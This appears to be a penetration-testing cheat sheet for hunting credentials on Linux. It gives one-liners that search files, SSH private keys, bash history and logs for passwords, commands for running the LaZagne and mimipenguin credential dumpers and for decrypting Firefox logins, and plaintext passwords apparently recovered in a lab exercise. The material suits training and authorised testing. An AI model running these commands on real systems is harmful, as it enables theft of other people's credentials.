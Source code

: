 # Credentail Hunting

## **Files**

### **Credentials in Configuration Files**

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### **Databases**

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### **Notes**

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

> Notes is chalenging to find due to the name of the file could be anything and might not have an extension. We can scan for all of those file and look at the file names manually

### **Scripts**

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### **Cronjobs**

```shell-session
cat /etc/crontab
```

```shell-session
ls -la /etc/cron.*/
```

### **SSH Keys**

#### **SSH Private Keys**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#### **SSH Public Keys**

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### **Bash History**

```shell-session
tail -n5 /home/*/.bash*
```

### **Logs**

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## **Memory**

### **Mimipenguin**

```shell-session
sudo python3 mimipenguin.py
#or
sudo bash mimipenguin.sh 
```

### laZagne

To run the python package of laZagne.py you have to move the entire directory of the linux package from the github since it has all the dependencies.

```shell-session
sudo python3 laZagne.py all
```

### **Firefox Stored Credentials**

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### **Decrypting Firefox Credentials**

```shell-session
python3 firefox_decrypt.py
```

## Assessment

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>kira:L0vey0u1!</p></figcaption></figure>

Running lazagne.py will give us the following

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption><p>TUqr7QfLTLhruhVbCP</p></figcaption></figure>

